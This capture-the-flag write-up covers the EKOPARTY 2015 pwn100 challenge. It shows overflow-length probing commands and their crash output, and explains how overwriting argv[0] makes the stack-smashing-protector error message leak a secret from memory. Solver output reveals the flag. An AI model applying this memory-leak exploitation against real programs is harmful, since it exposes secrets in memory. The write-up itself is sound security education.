 # EKOPARTY PRE-CTF 2015: Smashing the stack for fun and profit

**Category:** Pwning
**Points:** 100
**Solves:** 69
**Description:**

> nc challs.ctf.site 20001 

>[pwn100](pwn100.zip)

## Write-up

by [polym](https://github.com/abpolym)

This writeup is based on following writeups:

* <https://ctf-team.vulnhub.com/eko-party-pre-ctf-2015-smashing-the-stack-for-fun-and-profit/>
* <https://github.com/ByteBandits/writeups/blob/master/ekoparty-pre-ctf-2015/pwn/smashing-the-stack-for-fun-and-profit/sudhackar/README.md>
* <https://github.com/dqi/ctf_writeup/tree/master/2015/ekoparty_pre-ctf/pwn/pwn100>
* <https://www.securifera.com/blog/2015/09/23/ekoparty-pre-ctf-smashing-the-stack-for-fun-and-profit/>

### Meta

Keywords:

* Stack Overflow
* Stack Smashing Protector Memory Leak [Source](http://seclists.org/bugtraq/2010/Apr/243)
* Canary

We are given a x86-64bit non-stripped ELF for Linux, zipped:

```bash
$ file ./xpl
xpl: ELF 64-bit LSB  executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=1856a84cc2663caa91e1511a2f0691652201fb95, not stripped
```

We have to provide a flag file named `flag.txt` in order to run it: `echo "EKO{pwning_stack_protector}" > flag.txt `.

Running it:

```bash
$ ./xpl
Interesting data loaded at 0x7fffd209a1e0
Your username? hello
```

We receive an address and can input a username.

Decompiling main using `radare2`:

![](./main.png)

We can see the following:

* `putenv` sets 'LIBC_FATAL_STDERR_=1'
* The content of `flag.txt` is read with `fgets` into the stack at `rbp-0x110` using size `0x20`
* The pointer to this input buffer is printed to us using `__printf`
* Our username input is read into `rbp-0x90` with size `0x400` using `read` - This causes a stack overflow
* A stack canary check is called at `__stack_chk_fail`

With this in mind, we try to trigger a `SIGSEGV`. Our input has to be at least `0x130` (`sub rsp, 0x130`) plus `0x8` (`push rbp`) bytes long.

We start testing various input lengths in manual binary search to find interesting patterns:

```bash
$ p -c 'print "A"*0x130' | ./xpl
Interesting data loaded at 0x7fff92f891e0
Your username? *** stack smashing detected ***: ./xpl terminated
Aborted (core dumped)

$ p -c 'print "A"*0x200' | ./xpl 
Interesting data loaded at 0x7fff35f3c2b0
Your username? Segmentation fault (core dumped)

$ p -c 'print "A"*0x1b0' | ./xpl 
Interesting data loaded at 0x7fff7061bff0
Your username? Segmentation fault (core dumped)

$ p -c 'print "A"*0x160' | ./xpl 
Interesting data loaded at 0x7fff41fed390
Your username? *** stack smashing detected ***: ./xpl terminated
Aborted (core dumped)

$ p -c 'print "A"*0x180' | ./xpl 
Interesting data loaded at 0x7fffe93c0d40
Your username? Segmentation fault (core dumped)

$ p -c 'print "A"*0x170' | ./xpl 
Interesting data loaded at 0x7fffa9202d80
Your username? *** stack smashing detected ***: ./xpl terminated
Aborted (core dumped)

$ p -c 'print "A"*0x178' | ./xpl 
Interesting data loaded at 0x7fffaf92d6d0
Your username? *** stack smashing detected ***:  terminated
Aborted (core dumped)

$ p -c 'print "A"*0x174' | ./xpl 
Interesting data loaded at 0x7fff524293b0
Your username? *** stack smashing detected ***: ./xpl terminated
Aborted (core dumped)

$ p -c 'print "A"*0x176' | ./xpl 
Interesting data loaded at 0x7fffc44993b0
Your username? *** stack smashing detected ***: ./xpl terminated
Aborted (core dumped)

$ p -c 'print "A"*0x177' | ./xpl 
Interesting data loaded at 0x7fffee2d14f0
Your username? *** stack smashing detected ***: ./xpl terminated
Aborted (core dumped)

$ p -c 'print "A"*0x178' | ./xpl 
Interesting data loaded at 0x7fff2a131a20
Your username? *** stack smashing detected ***:  terminated
Aborted (core dumped)

$ p -c 'print "A"*0x179' | ./xpl 
Interesting data loaded at 0x7fffbe5440d0
Your username? *** stack smashing detected ***:  terminated
Aborted (core dumped)

$ p -c 'print "A"*0x17a' | ./xpl 
Interesting data loaded at 0x7fff9f21abf0
Your username? Segmentation fault (core dumped)
```

We can see that beginning at `0x178`, the stack smashing output does not contain the program name and disappears in it's entirety at `0x17a`.

As it turns out, this stack smashing detection technique (known as [Fortify](https://securityblog.redhat.com/2014/03/26/fortify-and-you/)) can be exploited.

As [this writeup](https://github.com/ByteBandits/writeups/blob/master/ekoparty-pre-ctf-2015/pwn/smashing-the-stack-for-fun-and-profit/sudhackar/README.md) hints, [this bugtraq](http://seclists.org/bugtraq/2010/Apr/243) shows that by overwriting argv[0] (which is the program name and used by fortify in the error message) wiht a known pointer to interesting memory data, it will print out this otherwise secret memory data instead of the program name.

[This python script]() tries various offsets for the argv[0] address until finding the correct one at offset `0x176` == `376`:

```bash
$ p solve.py 
[+] Started program './xpl'
[*] Leaked Buffer Addr: 0x7fff8774bc50
[+] Recieving all data: Done (0B)
[*] Program './xpl' stopped with exit code -11
[ 372 ]: 
[+] Started program './xpl'
[*] Leaked Buffer Addr: 0x7fff98b86300
[+] Recieving all data: Done (0B)
[*] Program './xpl' stopped with exit code -11
[ 373 ]: 
[+] Started program './xpl'
[*] Leaked Buffer Addr: 0x7fffabd54120
[+] Recieving all data: Done (0B)
[*] Program './xpl' stopped with exit code -11
[ 374 ]: 
[+] Started program './xpl'
[*] Leaked Buffer Addr: 0x7fffd6f46f40
[+] Recieving all data: Done (0B)
[*] Program './xpl' stopped with exit code -11
[ 375 ]: 
[+] Started program './xpl'
[*] Leaked Buffer Addr: 0x7fff5a11db40
[+] Recieving all data: Done (73B)
[*] Program './xpl' stopped with exit code -6
[ 376 ]: *** stack smashing detected ***: EKO{pwning_stack_protector}
 terminated
```

The flag is `EKO{pwning_stack_protector}`.

## Other write-ups and resources

* <https://ctf-team.vulnhub.com/eko-party-pre-ctf-2015-smashing-the-stack-for-fun-and-profit/>
* <https://github.com/ByteBandits/writeups/blob/master/ekoparty-pre-ctf-2015/pwn/smashing-the-stack-for-fun-and-profit/sudhackar/README.md>
* <https://github.com/dqi/ctf_writeup/tree/master/2015/ekoparty_pre-ctf/pwn/pwn100>
* <https://www.securifera.com/blog/2015/09/23/ekoparty-pre-ctf-smashing-the-stack-for-fun-and-profit/>
* [Spanish](http://rmolina.co/2015/09/prectf-ekoparty-2015.html)

